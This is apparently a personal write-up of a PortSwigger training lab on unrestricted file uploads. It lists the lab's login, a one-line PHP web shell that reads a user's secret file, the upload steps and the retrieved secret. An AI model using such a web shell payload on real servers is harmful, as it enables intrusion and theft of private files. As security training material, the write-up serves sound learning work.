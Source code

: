 # Lab Writeup: Remote code execution via web shell upload

URL: https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/exploiting-unrestricted-file-uploads-to-deploy-a-web-shell/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload

## Description

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

## Solution

1. Upload using `wiener:peter`
2. Create the following PHP payload:

   ```php
    <?php echo file_get_contents('/home/carlos/secret') ?>
   ```

3. Upload as avatar
4. Open the uploaded image in new tab, here's the output `IoGP8TsO6JqD8xEkh1jGqeyUKKLqD4LP`
5. Submit and the challenge should be solved:

   ![rce-webshell-upload](/assets/rce-webshell-upload.png)
